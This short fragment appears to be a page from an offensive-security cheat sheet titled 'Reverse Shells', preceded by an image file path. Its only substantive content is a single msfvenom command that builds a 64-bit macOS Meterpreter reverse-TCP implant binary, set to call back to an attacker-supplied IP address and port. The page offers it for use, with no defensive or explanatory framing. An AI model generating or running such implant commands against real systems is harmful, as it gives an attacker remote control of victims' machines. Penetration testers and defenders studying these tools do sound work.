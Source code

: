 # Reverse Shells

1. x86-64 (64-bit) Payloads

```
$ msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f macho -o implant-x64
```